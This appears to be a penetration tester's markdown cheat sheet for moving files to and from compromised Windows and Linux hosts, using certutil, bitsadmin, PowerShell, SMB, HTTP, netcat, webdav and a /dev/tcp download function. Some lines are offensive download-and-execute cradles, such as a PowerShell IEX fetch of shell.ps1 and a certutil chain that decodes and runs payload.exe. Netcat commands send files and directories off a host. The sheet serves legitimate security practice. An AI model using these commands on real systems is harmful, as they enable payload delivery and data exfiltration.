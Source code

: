 # share files

## Windows

```bash
certutil.exe -urlcache [-split] -f <source> <destn>
PS> wget <source> -OutFile <dest>
PS> Invoke-WebRequest -Uri <source> -Outfile <dest>
powershell -c (New-Object System.Net.WebClient).downloadFile('<source>', '<dest>')
powershell -exec bypass IEX(New-Object Net.WebClient).downloadString('/shell.ps1')
certutil.exe -urlcache -split -f <source> payload.b64 & certutil.exe -decode payload.b64 payload.exe & payload.exe
bitsadmin /transfer job <source> <dest>
wget.vbs https://gist.github.com/sckalath/ec7af6a1786e3de6c309

# SMB Server
smbserver.py [-smb2support] drive .

# on windows to copy (download)
copy \\IP\drive\file
# upload 
copy file \\IP\drive\

# mount smb-share-drive on windows using powershell
PS> New-PSDrive -Name "winDrive" -PSProvider "FileSystem" -Root "\\IP\drive"
Navigating to "winDrive" shows us all files

# upload dir (with all in it)
robocopy dir \\IP\drive\ /E
[OR]
net use Z: \\IP\drive /u:<username> <pass>
copy file Z:\
```

## HTTP Server

Alternative: [sc0tfree/updog](https://github.com/sc0tfree/updog)

```bash
python3 -m http.server 80
python2 -m SimpleHttpSever 80
php -S IP:PORT
wget <IP>:<PORT>/<file> -O <file>
curl <IP>:<PORT>/<file> -o <file>
scp file kashz@IP:/PATH/FILE

# download all files
wget -r <IP>:<PORT>/<DIR>/

# using base64
base64 <executable> > out
base64 -d out > <executable>
```

## NC

```bash
# receiver
nc -l -p <PORT> > out.file
# sender
nc -w 3 <IP> <PORT> < in.file

# receiver
nc -l -p 1234 | uncompress -c | tar xvfp -
# sender
tar cfp - /some/dir | compress -c | nc -w 3 [destination] 1234
```

## webdav

```bash
# pip install wsgidav cheroot
mkdir /tmp/kashz; wsgidav --host=IP --port=80 --root=/tmp/kashz

# windows
net use * http://IP/
```

## Curl function (linux only)

Use when system does not have `wget, curl.`NOTE: works for binary files too. Fails for `https://` with self signed certificates.

```bash
function __curl() {
  read proto server path <<<$(echo ${1//// })
  DOC=/${path// //}
  HOST=${server//:*}
  PORT=${server//*:}
  [[ x"${HOST}" == x"${PORT}" ]] && PORT=80

  exec 3<>/dev/tcp/${HOST}/$PORT
  echo -en "GET ${DOC} HTTP/1.0\r\nHost: ${HOST}\r\n\r\n" >&3
  (while read line; do
   [[ "$line" == $'\r' ]] && break
  done && cat) <&3
  exec 3>&-
}
# usage
__curl http://IP/FILE > out
```
